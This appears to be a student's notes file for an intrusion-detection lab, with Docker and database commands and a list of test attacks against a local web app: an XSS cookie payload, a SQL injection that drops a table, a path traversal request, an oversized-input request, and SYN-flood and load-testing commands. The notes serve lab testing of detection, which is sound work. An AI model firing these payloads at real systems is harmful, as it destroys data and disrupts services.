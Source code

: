 # NOTES:

* https://research.cec.sc.edu/files/cyberinfra/files/Zeek_Lab_Series.pdf

* Get docker container ip:
    docker ps
    docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' 49b976aca826

* connect to mysql:
    mariadb -h 172.21.0.2 -u ids_project_2024 -p --skip-ssl

* Get docker container cpu usage / io etc:
    docker container stats container_id or docker stats (its an alias)
    docker container top container_id

# NON AUTOMATED TOOLS

1) Cross Site Scripting (XSS):
<!-- <img src="" onerror="alert(document.cookie);"> -->

----------------------------------------

2) SQL Injection:
    - https://go.dev/doc/database/sql-injection
<!-- Safe: _, err := db.Exec("INSERT INTO Posts (title, content) VALUES (?, ?)", post.Title, post.Content) -->
<!-- Unsafe: payload := fmt.Sprintf("INSERT INTO Posts (title, content) VALUES ('%s', '%s')", post.Title, post.Content) \ _, err = db.Exec(payload) -->

<!-- test1 -->
<!-- test2'); DROP TABLE Posts; -- this is a comment and shall be ignored -->

curl -H 'Content-Type: application/json' -d "{\"title\":\"test1\",\"content\":\"test2'); DROP TABLE Posts; -- this is a comment and shall be ignored\"}" -X POST localhost:1234

----------------------------------------

3) NGINX Path Traversal Vulnerability

curl http://localhost/api/etc/password

----------------------------------------

4) curl -H "Content-Type: application/json" -d '{"title":"hello world", "content":"'$(python -c 'print("A"*5050)' | sed 's/"/\\"/g')'"}' -X POST http://localhost:1234

----------------------------------------

5) 

----------------------------------------

# AUTOMATED TOOLS

> see: ./ddos.sh

1. sudo hping3 -i u40 -S -p 1234 -c 1000000 172.21.0.3
2. Apache Bench ab -n 100000 -c 100 http://localhost:1234/
3. https://github.com/hatoo/oha oha -z 2m -c 1000 http://localhost:1234
4. nmap

